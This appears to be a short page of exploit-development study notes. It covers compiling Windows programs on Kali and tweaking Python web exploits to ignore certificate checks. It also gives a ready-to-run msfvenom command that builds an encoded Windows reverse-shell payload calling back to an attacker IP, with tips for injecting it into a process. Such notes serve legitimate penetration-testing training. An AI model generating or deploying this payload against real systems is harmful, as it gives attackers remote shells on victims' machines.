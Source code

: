 # Exploit Dev

### Compiling Shellcode

Use [x86_64-w64-mingw32-gcc](../11%20Windows/5%20Compilation/x86_64-w64-mingw32-gcc.md) to compile Windows programs in kali

Note: If `winsock2.h` is included, you will need to add the option `-lws2_32` to successfully compile

### Generate Shellcode

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.4 LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```

`EXITFUNC=thread` is useful when injecting into a process as without it, closing the shell would end the injected process

The `-b "\x00\x0a\x0d\x25\x26\x2b\x3d"` option should always be included when generating C code to avoid possible issues

### Modify Python Web

If attempting to utilize a web exploit in python against a self signed server (https), we have to modify any requests made to include

```python
verify=False
# So that
response = requests.post(url, data=data, allow_redirects=False)
# Becomes
response = requests.post(url, data=data, allow_redirects=False, verify=False)
```

